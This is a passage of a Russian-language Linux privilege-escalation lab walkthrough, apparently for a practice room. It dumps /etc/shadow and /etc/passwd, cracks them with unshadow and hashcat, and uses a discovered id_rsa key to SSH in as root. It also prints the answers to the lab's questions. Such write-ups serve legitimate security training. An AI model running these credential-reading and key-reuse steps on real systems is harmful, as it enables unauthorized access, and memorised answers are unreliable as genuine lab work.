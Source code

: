 Linux- виртуальная машина

1. В командной строке введите:
`ls -la /etc/shadow`
2. Обратите внимание на права доступа к файлу.

Эксплуатация Linux- виртуальная машина

1. В командной строке введите:  `cat /etc/passwd`
2. Сохраните вывод в файл на машине злоумышленника.
3. В командной строке введите: `cat /etc/shadow`
4.  Сохраните вывод в файл на машине злоумышленника.

Атакующая виртуальная машина

1.  В командной строке введите:  `unshadow <ФАЙЛ-ПАРОЛЬ> <ФАЙЛ-ТЕНИ> > unshadowed.txt`

Теперь у вас есть незатененный файл. Мы уже знаем пароль, но вы можете использовать свой любимый инструмент взлома 
хэшей, чтобы взломать эти хэши. Например:

`hashcat -m 1800 unshadowed.txt rockyou.txt -O`
### Ответьте на вопросы ниже
Каковы были права доступа к файлу /etc/shadow?
```commandline
-rw-rw-r--
```

## Задание 7
Обнаружение

Linux- виртуальная машина

1. В командной строке введите:
`find / -name authorized_keys 2> /dev/null`
2. В командной строке введите:
`find / -name id_rsa 2> /dev/null`
3. Отметьте результаты.

Эксплуатация Linux- виртуальная машина

1. Скопируйте содержимое обнаруженного файла id_rsa в файл на виртуальной машине атакующего .

Атакующая виртуальная машина

1.  В командной строке введите:  `chmod 400 id_rsa`
2.  В командной строке введите: `ssh -i id_rsa root@<ip>`

Теперь у вас должна быть root-оболочка :)
### Ответьте на вопросы ниже
Каков полный путь к обнаруженному вами конфиденциальному файлу?

```commandline
/backups/supersecretkeys/id_rsa
```

## Задание 8
Обнаружение
